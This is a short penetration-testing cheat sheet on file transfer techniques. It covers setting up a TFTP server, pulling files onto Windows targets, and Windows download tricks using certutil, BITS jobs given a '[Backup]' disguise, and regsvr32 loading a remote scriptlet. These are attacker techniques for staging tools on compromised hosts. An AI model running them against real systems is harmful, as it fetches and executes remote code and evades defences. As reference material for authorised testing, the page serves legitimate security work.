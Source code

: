 ## TFTP
- UDP-based file transfer protocol
- Often restricted by corporate egress firewall rules
- Useful to transfer files from older Windows operating systems - up to Windows XP and 2003
- Not installed by default on systems running Windows 7, Windows 2008, and newer.  

### Setting up a TFTP server
```bash
sudo apt update && sudo apt install atftp  
sudo mkdir /tftp  
sudo chown nobody: /tftp  
sudo atftpd --daemon --port 69 /tftp
```

### Downloading from TFTP server
```powershell
C:\Users> tftp -i [Target_IP] GET [Target_File]
```

## Enable Passive Mode
```shell
# Linux
passive

# Windows
quote pasv
```


## Misc

### Certutil.exe
```powershell
certutil.exe -urlcache -f [Target_File_URL] [Output_File]
```

### BitsTransfer
```powershell
Start-BitsTransfer -Source [Target_File_URL] -Destination [Output_File]
```

### regsrv32.exe
```powershell
regsvr32.exe /s /n /u /i:[Target_File_URL] scrobj.dll
```

### BitsTransfer
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source [Target_File_URL] -Destination [Output_File] -Description "[Backup]" -DisplayName "[Backup]"
```
